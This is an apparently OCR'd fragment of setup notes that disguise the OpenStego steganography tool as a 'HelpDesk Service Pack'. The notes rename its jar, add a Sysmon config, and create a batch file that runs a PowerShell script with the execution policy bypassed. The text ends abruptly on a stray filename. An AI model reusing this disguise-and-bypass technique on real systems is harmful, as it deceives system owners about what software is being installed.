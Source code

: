 OpenStego.bat configuration change

To obfuscate the OpenStego.jar, we'll need to change some of the .bat file that runs the program.

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack/HelpDesk"
mousepad HelpDesk.bat

Change the following lines:

# change the allocated memory space
#FROM: 
set JAVA_OPTS=-Xmx1024m
#TO: 
set JAVA_OPTS=-Xmx6g

# search for, and change anything that has the following (it happens 2x in the files):
#FROM:
openstego.jar
#TO:
HelpDesk.jar

Copy the sysmonconfig-export.xml

nano a file into the HelpDesk Service Pack folder that we just created

cd "/home/kali/Desktop/tools/Service Pack" ; nano sysmonconfig-export.xml ; cp sysmonconfig-export.xml "./HelpDesk Service Pack/"

Copy and paste the following into the file and DELETE THE NEWLINES BETWEEN EACH LINE

<Sysmon schemaversion="4.90">  
<ArchiveDirectory>PerfMon</ArchiveDirectory>  
<EventFiltering>  
    <FileDelete onmatch="exclude">  
      <Image condition="contains">Prefetch</Image>  
      <TargetFilename condition="contains">.pf</TargetFilename>  
      <Image condition="contains">splunk</Image>  
      <Image condition="contains">WSM</Image>  
    </FileDelete>  
    <FileDelete onmatch="include">  
      <TargetFilename condition="contains">.exe</TargetFilename>  
    </FileDelete>  
</EventFiltering>  
</Sysmon>

Create the run.bat script in the Service Pack folder

cd "/home/kali/Desktop/tools/Service Pack" ; nano run.bat

Copy the following into the file:

powershell -ep bypass "C:\Users\Public\'HelpDesk Service Pack'\sysmonsetup.ps1"

doge64commander.sh
